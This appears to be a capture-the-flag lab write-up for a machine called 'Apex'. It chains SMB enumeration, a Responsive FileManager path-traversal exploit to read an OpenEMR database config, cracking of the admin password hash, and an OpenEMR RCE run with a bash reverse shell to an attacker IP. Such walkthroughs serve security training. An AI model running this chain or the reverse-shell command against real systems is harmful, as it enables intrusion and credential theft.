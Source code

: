 # Apex

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 192.168.183.145
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-11 22:07 +08
Nmap scan report for 192.168.183.145
Host is up (0.17s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
445/tcp  open  microsoft-ds
3306/tcp open  mysql
```

Interesting ports open.&#x20;

### SMB Enumeration

Using `smbmap`, we can find some shares that are open.

```
$ smbmap -H 192.168.183.145              
[+] Guest session       IP: 192.168.183.145:445 Name: 192.168.183.145                                   
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        docs                                                    READ ONLY       Documents
        IPC$                                                    NO ACCESS       IPC Service (APEX server (Samba, Ubuntu))
```

The `docs` share just had some files related to OpenEMR:

```
$ smbclient -N //192.168.183.145/docs        
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Apr  9 23:47:12 2021
  ..                                  D        0  Fri Apr  9 23:47:12 2021
  OpenEMR Success Stories.pdf         A   290738  Fri Apr  9 23:47:12 2021
  OpenEMR Features.pdf                A   490355  Fri Apr  9 23:47:12 2021
```

### Web Enumeration --> FileManager LFI

Port 80 shows a medical website:

<figure><img src="../../../.gitbook/assets/image (64).png" alt=""><figcaption></figcaption></figure>

SMB enumeration revealed that this website might be running a vulnerable version of OpenEMR, and there are quite a few RCE exploits for OpenEMR.

However, most of these require credentials. I scanned the website for potential directories to other services, and found a File Manager using `gobuster`:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.183.145 -t 100      
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.183.145
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/07/11 22:11:27 Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 319] [--> http://192.168.183.145/assets/]
/thumbs               (Status: 301) [Size: 319] [--> http://192.168.183.145/thumbs/]
/source               (Status: 301) [Size: 319] [--> http://192.168.183.145/source/]
/filemanager          (Status: 301) [Size: 324] [--> http://192.168.183.145/filemanager/]
```

When we visit `/filemanager`, we can see that it is running Responsive FileManager:

<figure><img src="../../../.gitbook/assets/image (48) (1).png" alt=""><figcaption></figcaption></figure>

There are a few exploits related to this:

```
$ searchsploit responsive FileManager
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Responsive Filemanager 9.13.1 - Server-Side Request Forger | linux/webapps/45103.txt
Responsive FileManager 9.13.4 - 'path' Path Traversal      | php/webapps/49359.py
Responsive FileManager 9.13.4 - Multiple Vulnerabilities   | php/webapps/45987.txt
Responsive FileManager < 9.13.4 - Directory Traversal      | php/webapps/45271.txt
----------------------------------------------------------- ---------------------------------
```

The LFI works!

```
$ python3 49359.py http://192.168.183.145 PHPSESSID=86a4n0gbbc9klrmvq461tnfk8n /etc/passwd
[*] Copy Clipboard
[*] Paste Clipboard
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
<TRUNCATED>
```

### SQL Creds --> RCE

Since we have LFI, we can try reading the SQL credentials that are present within OpenEMR (based on reading the OpenEMR Github repository).&#x20;

{% embed url="https://github.com/openemr/openemr/blob/master/sites/default/sqlconf.php" %}

```
$ python3 49359.py http://192.168.183.145 PHPSESSID=86a4n0gbbc9klrmvq461tnfk8n /var/www/openemr/sites/default/sqlconf.php 
[*] Copy Clipboard
[*] Paste Clipboard
```

There was something blocking us from reading PHP files here, and its probably the `.htaccess` file. Within the FileManager instance, I noticed that the same PDFs on SMB were present within it.

<figure><img src="../../../.gitbook/assets/image (65).png" alt=""><figcaption></figcaption></figure>

The LFI exploit copies and pastes files into directories, and this means that we should be able to read the file from the SMB share. We just need to modify the `paste_clipboard` function within the exploit:

<figure><img src="../../../.gitbook/assets/image (21) (9).png" alt=""><figcaption></figcaption></figure>

After changing the directories a few times, I got it within the SMB share:

```
$ python3 49359.py http://192.168.183.145 PHPSESSID=86a4n0gbbc9klrmvq461tnfk8n /var/www/openemr/sites/default/sqlconf.php
[*] Copy Clipboard
[*] Paste Clipboard

$ smbclient -N //192.168.183.145/docs
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Jul 11 22:30:24 2023
  ..                                  D        0  Tue Jul 11 22:20:07 2023
  sqlconf.php                         N      639  Tue Jul 11 22:30:24 2023
  OpenEMR Success Stories.pdf         A   290738  Fri Apr  9 23:47:12 2021
  OpenEMR Features.pdf                A   490355  Fri Apr  9 23:47:12 2021
```

Here's its contents:

```php
$ cat sqlconf.php   
<?php
//  OpenEMR
//  MySQL Config

$host   = 'localhost';
$port   = '3306';
$login  = 'openemr';
$pass   = 'C78maEQUIEuQ';
$dbase  = 'openemr';
```

Now we have some SQL creds, we can login to the database present.&#x20;

<figure><img src="../../../.gitbook/assets/image (57) (6).png" alt=""><figcaption></figcaption></figure>

We can then find the credentials for OpenEMR:

```
MariaDB [openemr]> select * from users_secure;
+----+----------+--------------------------------------------------------------+--------------------------------+---------------------+-------------------+---------------+-------------------+---------------+
| id | username | password                                                     | salt                           | last_update         | password_history1 | salt_history1 | password_history2 | salt_history2 |
+----+----------+--------------------------------------------------------------+--------------------------------+---------------------+-------------------+---------------+-------------------+---------------+
|  1 | admin    | $2a$05$bJcIfCBjN5Fuh0K9qfoe0eRJqMdM49sWvuSGqv84VMMAkLgkK8XnC | $2a$05$bJcIfCBjN5Fuh0K9qfoe0n$ | 2021-05-17 10:56:27 | NULL              | NULL          | NULL              | NULL          |
+----+----------+--------------------------------------------------------------+--------------------------------+---------------------+-------------------+---------------+-------------------+---------------+
1 row in set (0.176 sec)
```

This hash can be cracked using `john`:

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash     
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 32 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
thedoctor        (?)     
1g 0:00:00:06 DONE (2023-07-11 22:36) 0.1474g/s 6430p/s 6430c/s 6430C/s versus..telmo
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Afterwards, we can run the RCE exploit for OpenEMR:

{% code overflow="wrap" %}
```
$ python2 45161.py -u admin -p thedoctor -c 'bash -i >& /dev/tcp/192.168.45.184/4444 0>&1' http://192.168.183.145/openemr
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (35).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

The `root` user has the same password as the MySQL database of `thedoctor`:

<figure><img src="../../../.gitbook/assets/image (14) (2).png" alt=""><figcaption></figcaption></figure>

